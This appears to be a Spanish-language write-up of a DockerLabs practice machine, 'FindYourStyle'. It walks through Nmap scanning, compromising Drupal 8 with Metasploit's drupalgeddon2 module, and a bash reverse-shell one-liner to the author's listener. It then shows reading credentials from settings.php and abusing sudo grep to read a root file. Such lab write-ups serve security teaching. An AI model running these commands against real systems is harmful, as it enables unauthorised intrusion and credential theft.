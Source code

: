 # Maquina FindYourStyle - DockerLabs.es

![alt text](ImagenesFindYourStyle/image.png)

Verificar que la maquina este desplegada correctamente

![alt text](ImagenesFindYourStyle/image-1.png)

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

![alt text](ImagenesFindYourStyle/image-2.png)

A continuación, realizamos un escaneo de la IP utilizando Nmap.

![alt text](ImagenesFindYourStyle/image-3.png)

Observamos que el puerto 80 está abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

![alt text](ImagenesFindYourStyle/image-4.png)

En este caso vemos que el puerto 80 que ejecuta un Apache y esta la web está montada con Drupal 8. Accederemos a la página web alojada en esta máquina utilizando un navegador y veremos lo siguiente.

![alt text](ImagenesFindYourStyle/image-5.png)

Si hacemos una busqueda utilizando `Metasploit` encontraremos varios exploit, en mi caso yo utilicé el `exploit/unix/webapp/drupal_drupalgeddon2` el cual me dio resultados.

![alt text](ImagenesFindYourStyle/image-6.png)

Primero configuramos el exploit con las configuraciones requeridas. Para ver lo que necesitamos configurar escribimos `show options`

![alt text](ImagenesFindYourStyle/image-7.png)

En este caso necesitaremos modificar el RHOST solamente y lo haremos con `set RHOST <<ip-victima>>`

Y para validar que se moficó podemos volver a utilizar `show options`

![alt text](ImagenesFindYourStyle/image-8.png)

Ya una vez configurado ejecutamos el comando `run` y esperamos que nos envie una sesión meterpreter...

Y vemos que ya estamos dentro.

![alt text](ImagenesFindYourStyle/image-9.png)

Ahora para trabajar de forma mas comoda me pasaré a shell y luego me enviaré una y me pondre a la escuchat con Netcat de la siguiente manera.

Nos ponemos a la escucha por el puerto 4545

![alt text](ImagenesFindYourStyle/image-10.png)

Y en la sesión meterpreter escribiremos `shell` que nos permitira intruducir una shell de comandos del sistema y luego de eso nos proporcionamos una `bash` y por ultimo nos enviamos una reverse shell de la siguiente forma `/bin/bash -i >& /dev/tcp/172.16.1.131/4545 0>&1`

![alt text](ImagenesFindYourStyle/image-11.png)

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Si vemos la lista de usuarios notaremos que hay uno llamado `ballenita`

![alt text](ImagenesFindYourStyle/image-12.png)

Si hacemos una busqueda del archivo `settings.php` el cual es un archivo en Drupal de configuracion que contiene ajustes esenciales para el funcionamiento del sitio web y en el cual podemos encontrar credenciales, notaremos que el archivo esta en la ruta `/var/www/html/sites/default/settings.php`

![alt text](ImagenesFindYourStyle/image-13.png)

Si leemos el contenido de dicho archivo y filtramos por la palabra `password` utilizando un `grep` veremos que contiene una posible contraseña la cual es `ballenitafeliz`

![alt text](ImagenesFindYourStyle/image-14.png)

Si intentamos ingresar con el usuario `ballenita` que vimos en el `/etc/passwd` y porporcionamos la contraseña `ballenitafeliz` lograremos movernos a dicho usuario.

![alt text](ImagenesFindYourStyle/image-15.png)

Si ejecutamos el comando `sudo -l` estando con el usuario `ballenita` veremos que podemos ejecutar los binarios `/bin/ls` y `/bin/grep` como el usuario `root` sin proporcionar contraseña.

![alt text](ImagenesFindYourStyle/image-16.png)

Ahora si hacemos un `sudo /bin/ls -la /root/` veremos que hay un archivo de texto llamado `secretitomaximo.txt`

![alt text](ImagenesFindYourStyle/image-17.png)

Ahora intentaremos leer ese archivo con `sudo /bin/grep '' /root/secretitomaximo.txt` para ver su contenido y obtendremos la siguiente cadena de texto `nobodycanfindthispasswordrootrocks`.

![alt text](ImagenesFindYourStyle/image-18.png)

Si intentamos usar esta cadena texto como contraseña para acceder como `root` veremos que tenemos exito y seremos root.

![alt text](ImagenesFindYourStyle/image-19.png)
